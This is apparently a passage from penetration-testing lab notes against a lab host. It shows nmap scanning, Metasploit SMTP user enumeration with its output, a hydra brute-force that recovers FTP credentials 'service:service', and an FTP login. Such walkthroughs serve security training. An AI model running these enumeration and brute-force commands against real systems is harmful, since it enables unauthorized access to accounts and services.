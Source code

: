 ```bash
#  according to the most recent information available. This backdoor 
#  was removed on July 3rd 2011.
```

- 📌 Exploits might not work because the vulnerability may have been patched!
- Enumerate user accounts via **`SMTP` brute-force**

```bash
nmap -sV -p 25 10.2.20.205
	25/tcp open  smtp  Postfix smtpd
```

```bash
msfconsole
```

```bash
use auxiliary/scanner/smtp/smtp_enum
setg RHOSTS 10.2.20.205
set UNIXONLY true
run
```

```bash
# Valid user and service accounts
[+] 10.2.20.205:25 - 10.2.20.205:25 Users found: , backup, bin, daemon, distccd, ftp, games, gnats, irc, libuuid, list, lp, mail, man, mysql, news, nobody, postfix, postgres, postmaster, proxy, service, sshd, sync, sys, syslog, user, uucp, www-data
```

```bash
hydra -l service -P /usr/share/metasploit-framework/data/wordlists/unix_users.txt 10.2.20.205 ftp
```

```bash
[21][ftp] host: 10.2.20.205   login: service   password: service
```

![](assets/image-20230424144709605.png)

> 📌 FTP credentials found:
>
> - `service`:`service`

```bash
ftp 10.2.20.205
# Use service:service
```

